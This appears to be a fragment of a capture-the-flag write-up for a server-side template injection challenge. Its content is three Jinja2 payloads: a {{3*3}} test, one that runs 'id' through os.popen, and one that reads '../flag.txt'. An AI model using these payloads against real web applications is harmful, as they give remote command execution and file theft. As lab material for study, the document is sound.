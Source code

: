 - __Vulnerability__: Server-side Template Injection
- __Goal__: Read the flag from the system

#### SSTI payloads to read the flag

```python
{{3*3}}
```

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat ../flag.txt').read()}}
```
